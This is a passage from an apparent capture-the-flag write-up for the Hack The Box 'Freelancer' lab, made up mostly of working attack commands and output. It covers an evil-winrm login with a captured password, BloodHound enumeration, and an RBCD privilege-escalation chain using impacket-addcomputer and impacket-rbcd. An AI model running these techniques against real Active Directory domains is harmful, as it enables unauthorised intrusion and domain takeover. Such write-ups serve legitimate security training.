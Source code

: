 ```bash
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

### Winrm 

This user is able to use `winrm`, upgrade shell:
```bash
└─$ evil-winrm -i 10.10.11.5 -u 'lorra199' -p 'PWN3D#l0rr@Armessa199'
```

Sync time and get "loot" for bloodhound:
```bash
└─$ sudo ntpdate freelancer.htb
2024-06-16 15:29:24.591660 (-0400) +18000.576877 +/- 0.041795 freelancer.htb 10.10.11.5 s1 no-leap
CLOCK: time stepped by 18000.576877

└─$ faketime -f +5h bloodhound-python -u lorra199 -p "PWN3D#l0rr@Armessa199" -d freelancer.htb -ns 10.10.11.5 -c all
```

> Note: **1.** NetBIOS error shouldn't be an issue for Bloodhound. **2.** `ntpdate` didn't work, `faketime` fixed the issue.
{: .prompt-tip }

![Writeup-13.png](/assets/images/Season 5/Freelancer/Writeup-13.png)

Mark the `lorra199` user as owned.

To show all computers on network use query: `MATCH (c:Computer) RETURN c`

There seems to be second domain controller on the network.

![Writeup-14.png](/assets/images/Season 5/Freelancer/Writeup-14.png)

Show shortest path to DC2 from owned user.

![Writeup-15.png](/assets/images/Season 5/Freelancer/Writeup-15.png)

_Members of this group can list/delete/control the deleted active directory objects_
_The AD RECYLE BIN group has GenericWrite permissions on DC2 and can modify the attributes of the account, including setting or changing the list of services allowed to be delegated to, which can indirectly implement constrained delegation (RBCD)._

Deleted object can be listed using:
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
## Privilege Escalation (Administrator)

[A Practical Guide To RBCD Exploitation](https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5)

```bash
└─$ impacket-addcomputer -computer-name 'test02$' -dc-ip 10.10.11.5 freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account test02$ with password Hye7CZPcPzoHsIr6jtiWnR2eKdrX0lFb.

└─$ impacket-rbcd -delegate-to 'DC$' -delegate-from 'test02$' -dc-ip 10.10.11.5 -action write freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-1-5-21-3542429192-2036945976-3483670807-11601)
[*] Delegation rights modified successfully!
```